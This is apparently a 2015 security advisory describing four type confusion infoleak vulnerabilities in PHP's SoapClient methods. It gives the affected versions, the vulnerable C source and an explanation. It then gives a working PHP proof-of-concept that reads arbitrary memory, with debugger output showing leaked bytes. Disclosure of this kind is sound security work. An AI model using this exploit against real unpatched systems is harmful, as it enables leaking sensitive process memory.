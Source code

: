 ### Type Confusion Infoleak Vulnerabilities in SoapClient
> Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.3.1 - Release Date: 2015.3.20

Four type confusion vulnerabilities were discovered in SoapClient object's some methods that can be abused for leaking arbitrary memory blocks.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
PHP_METHOD(SoapClient, __getLastRequest)
{
	zval **tmp;
	
	if (zend_parse_parameters_none() == FAILURE) {
		return;
	}

	if (zend_hash_find(Z_OBJPROP_P(this_ptr), "__last_request", sizeof("__last_request"), (void **)&tmp) == SUCCESS) {
		RETURN_STRINGL(Z_STRVAL_PP(tmp), Z_STRLEN_PP(tmp), 1);
	}
	RETURN_NULL();
}
```
 
The Z_STRVAL_P macro lead to looking up an arbitrary valid memory address, and return a string via a doubles-type or integer-type zval that start from this memory address. If the memory address is an invalid memory position, it should result in a crash.

The Z_STRLEN_PP macro for accessing str.len member from the zvalue_value union, and return string's length. For integers the Z_STRLEN_PP macro is generally return 1, so a integer-type ZVAL can collide a string of length 1. The size of a double is 8 bytes, so on 32bit system a double-type ZVAL can collide a string of any length

The very similar bugs exists in SoapClient object's __getLastResponse(), __getLastRequestHeaders(), and __getLastResponseHeaders() methods.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.3 installation of PHP 5.5.14.

``` php
<?php

$z = new SoapClient(null, array('location' => "", 'uri' => ""));
$str = '';
for ($i = 0x100351e3d; $i < 0x100351e3d + 25; $i++) {
    $z->__last_request = $i;
    $str .= $z->__getLastRequest();
}
var_dump($str);

?>
```

Test the PoC on the command line, then output some memory blocks:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run test.php
Process 6366 launched: '/usr/bin/php' (x86_64)
string(25) "UH??AWAVSPI??I??H????
                                 H"
Process 6366 exited with status = 0 (0x00000000) 
```
